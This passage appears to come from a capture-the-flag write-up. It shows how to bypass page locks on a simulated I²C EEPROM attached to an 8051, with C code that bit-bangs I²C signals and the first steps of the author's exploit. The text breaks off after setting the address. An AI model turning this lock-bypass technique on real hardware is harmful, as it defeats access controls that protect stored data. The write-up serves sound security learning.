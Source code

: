 > After the acknowledge bit, the clock line is low and the master may do one of three things:
> * Begin transferring another byte of data: the transmitter sets SDA, and the master pulses SCL high.
> * Send a "Stop": Set SDA low, let SCL go high, then let SDA go high. This releases the I²C bus.
> * Send a "Repeated start": Set SDA high, let SCL go high, then pull SDA low again. This starts a new I²C bus message without releasing the bus.


## Bypass the lock

Now, the goal is clear,
* Set the address to zero. It is not locked, so `i2c_address_valid` is 1.
* Lock all pages to bypass the check in `I2C_READ`
* Read all 256 bytes in the memory.

To implemented the I²C protocol,
I copy those code in the simulator and modify them.
For example,

```c
/* Original code in the simulator */
void send_start(__int64 a1) {
  seeprom_write_scl(a1, 0);
  seeprom_write_sda(a1, 1);
  seeprom_write_scl(a1, 1);
  seeprom_write_sda(a1, 0);
}

/* Modified code to run on 8051 */
void send_start() {
  RAW_I2C_SCL = 0;
  RAW_I2C_SDA = 1;
  RAW_I2C_SCL = 1;
  RAW_I2C_SDA = 0;
}
```

And below is our main exploit, you can find the full script at [here]([_files/user.c])

First, set the address to zero

```c
print("start\n");
send_start();

print("op load_address\n");
send_byte(SEEPROM_I2C_ADDR_WRITE);
if (!recv_ack()) { print("failed 0\n"); goto end; }

print("addr 0\n");
send_byte(0);
if (!recv_ack()) { print("failed 1\n"); goto end; }
```

Next, lock all pages.
